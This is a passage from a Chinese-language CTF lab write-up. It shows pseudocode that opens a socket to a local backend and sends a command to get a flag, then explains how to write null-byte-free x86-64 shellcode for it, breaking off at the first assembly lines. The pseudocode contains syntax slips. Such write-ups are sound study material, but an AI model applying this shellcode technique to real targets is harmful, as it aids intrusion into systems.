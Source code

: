     # Socket Config
    int fd = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in info;
    info.sin_family = PF_INET;
    info.sin_addr.s_addr = inet_addr("127.0.0.1");
    info.sin_port = htons(8765);

    # Connect to Backend
    connect(fd, (struct sockaddr *)&info, sizeof(info))
        
    # Write 0x8787 to fd
    struct Command cmd;
    cmd.cmd = 0x8787;
    write(fd, &cmd, sizeof(cmd));

    # Read the result from fd
    struct Response res;
    read(fd, $rsp, sizeof(res);
         
    # Write the result from fd to stdout
    write(1, $rsp, 0x40);
    ```
    簡單來說，前面需要我們設定socket的config，然後用這個config連線到後端，並且把command置換成0x8787，傳送到後端給的fd，這樣後段就會直接噴flag給我們(準確來說是那個fd)，所以我們要承接fd接到的flag並且送到stdout，大概是這樣，但這一連串的操作其實是助教一開始在課堂中有提示，並且看了@cs-otaku的WP也有提到該步驟才知道，所以如果都不知道以上操作的話要怎麼辦呢?我們可以想辦法把backend的binary讀出來，這樣的話就只能自行把backend的binary讀出來再去分析裡面的奧義
    
    我是直接用[godbolt](https://godbolt.org/)搭配[x86-64 disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)
    :::spoiler godbolt Result
    ![image](https://hackmd.io/_uploads/B1hxShgL6.png)
    :::
    不過正如@cs-otaku說的
    > 寫入content是用write去寫的。所以shellcode裡面不可以出現\x00這種東西

    所以我也是邊參考disassembly的結果慢慢看中間有沒有\x00的byte，如果有就要想其他的payload替換掉
    
    1. Socket Config
        像是這邊我不知道`AF_INET`所代表的byte是多少就可以直接看godbolt的結果，另外syscall要用哪一個可以參考[linux x86-64 syscall](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)，並且根據calling convention把shellcode擺好，切記看完之後要看一下轉換成shellcode看有沒有\x00的byte，可以用pwntools的asm function或是直接用[x86-64 disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)都可以達到一樣的效果
        ![image](https://hackmd.io/_uploads/HJUeP3lUp.png)
        ```python
        # int fd = socket(AF_INET, SOCK_STREAM, 0);
        socket = """
            xor rax, rax
            mov al, 0x29
